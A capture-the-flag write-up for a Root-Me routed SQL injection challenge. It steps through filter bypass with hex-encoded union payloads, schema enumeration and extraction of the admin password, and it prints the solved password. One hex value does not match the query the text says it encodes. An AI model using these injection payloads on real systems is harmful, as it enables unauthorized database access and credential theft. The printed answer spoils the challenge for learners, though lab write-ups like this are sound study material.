 # [SQL Injection Routed](https://www.root-me.org/en/Challenges/Web-Server/SQL-Injection-Routed)

So I think the injection is going to be done in the "Search" functionality instead of the login.

If we search for `admin`, we get a successful result.

If we try to get all results with `' or 1=1-- `, we get an "Attack Detected!"

So after trying `admin'-- ` and some other quick tests, we realize that `OR` triggered that 
protection. What about `admin' and 1=1-- `? Same thing.

A little search on "Routed SQL Injection" turned up [this useful explanation](http://www.securityidiots.com/Web-Pentest/SQL-Injection/routed_sql_injection.html)

Basically what we type gets sent to a query, and the results of that query get sent to another.

So can we control the results of the first query? Sure.

`' union select 1-- `

Will make the first query always return 1. Which gives us the user with id `1`

`' union select ' order by 1-- `

"Attack Detected!"

Dammit. SQL SELECT statements can be hex encoded. let's try that again but in hex.

`' union select 0x27206f7264657220627920342d2d20-- `

Where `0x27206f7264657220627920342d2d20` is `' order by 1-- ` hex encoded. Notice the extra 
comment at the end. That's so the first query is comment ended and the second query is also 
comment ended when it's decoded and ran.

Got it to run. So we can find out how many columns. There are 2 because:

`' union select ' order by 3-- ` fails.

Let's see what types of columns we have:

`' union select 1,'a'-- ` (encoded: `' union select 0x2720756e696f6e2073656c65637420312c2761272d2d20-- `

Returns `a` as the email. So let's get the table name:

`' union select 1,group_concat(table_name) from information_schema.tables where ascii(table_name)>90-- `

Don't forget to hex encode. So the only table we're looking at is `users`

And the columns?

`' union select 1,column_name from information_schema.columns where table_name='users'-- `

Four columns: `id`,`login`,`password`,`email`

So enough messing around let's get the admin password:

`' union select 1,password from users where login='admin'-- `

Got it!

Password is: **qs89QdAs9A**


